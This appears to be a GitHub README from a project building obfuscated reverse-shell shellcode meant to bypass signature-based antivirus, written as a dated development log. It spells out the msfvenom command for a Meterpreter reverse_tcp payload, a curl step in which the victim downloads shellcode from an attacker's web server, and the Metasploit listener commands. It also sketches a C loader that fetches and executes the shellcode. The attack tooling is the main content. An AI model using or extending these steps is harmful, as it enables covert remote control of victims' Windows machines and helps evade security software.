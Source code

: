# reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus

# 10/16/2024
  Steps needed in the main c program:
  
      - Download shellcode payload (HTTP GET REQUEST)
      
      - parse shellcode properly:
          - there should be no Null bytes (0x00), Line feeds (0x0A), carriage returns (0x0D), or Form feeds (0x0C)
          - only the shellcode instructions stored into char* memBuffer. 
          - then, loop through memBuffer[] and save contents as hexidecimal machine code to the dynamically 
              allocated unsigned char shellcode[]
              
      - execute machine code within shellcode[]

  Uploaded main.cpp

    Right now, the main.cpp downloads the shellcode, converts it to dynamic allocated memory that is reconizable to the system as hexidecimal instructions , and prints the the converted shellcode.
    
    Here is the shellcode before conversion:
    ![My Image](payload before conversion.png)

    Here is the shellcode after conversion:


    We still need to figure out how to execute this shellcode so that it connects the user to the attacker.


  # 10/15/2024
  To-do: create a c program to download the shellcode and execute it. 
  
      Russell:
          Check out this code generated by chatGPT:     https://chatgpt.com/share/670ecd31-e6f4-8007-975a-aa463a4bbc49
           It lays the foundation for what we are attempting to do. It has not been tested thoroughly but is a good reference
           to the steps required for the program executable.



# 10/14/2024:
    
    Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded payload-22.c

  To create a payload (using kali):
            
      $msfvenom -p windows/meterpreter/reverse_tcp lhost={IP of attacker} lport={port #} --format c -o payload-22.c -b "\x00\x0A\x0\x0C\x0D"
      
  To download the shellcode as a victim via web server:
    
      $curl {your http web server}/download.php > payload-22.txt
      
  Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

  To run a listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

  Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to enter the shell of the victim:
      
      $shell



  For a broad video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ


      

  

    
